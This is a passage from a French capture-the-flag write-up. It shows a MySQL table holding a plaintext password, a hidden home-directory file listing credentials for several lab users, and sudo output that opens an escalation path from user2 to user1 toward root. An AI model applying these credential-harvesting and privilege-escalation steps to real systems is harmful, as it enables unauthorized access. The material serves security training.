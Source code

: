 ```plain
+----------------+
| user_info      |
+----------------+
1 row in set (0.00 sec)

mysql> select * from user_info;
+----------+-------------+
| username | password    |
+----------+-------------+
| mysql    | mysql@12345 |
+----------+-------------+
1 row in set (0.00 sec)
```

Passer *mysql* nous amène à de nombreux mots de passe :  

```plain
mysql@osboxes:~$ ls -al
total 28
drwxr-xrwx  4 root  root  4096 Jul  6 16:25 .
drwxr-xr-x 14 root  root  4096 Jun  5 16:36 ..
-rw-------  1 mysql mysql  235 Jun  6 14:18 .bash_history
-rw-------  1 mysql mysql    3 Jun  6 14:18 db.txt.save
drwx------  3 mysql mysql 4096 Jul  6 16:25 .gnupg
drwxrwxr-x  3 mysql mysql 4096 Jun  6 14:15 .local
----------  1 mysql mysql  126 Jun  6 14:17 .user_informations

mysql@osboxes:~$ chmod 600 .user_informations
mysql@osboxes:~$ cat .user_informations
user2:user2@12345
user3:user3@12345
user4:user4@12345
user5:user5@12345
user6:user6@12345
user7:user7@12345
user8:user8@12345
```

User2 vers user1 vers root
--------------------------

On se connecte en *user2* et on voit qu'on peut passer *user1* via sudo :  

```plain
$ sudo -l
[sudo] password for user2:
Matching Defaults entries for user2 on osboxes:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user2 may run the following commands on osboxes:
    (user1) ALL
```
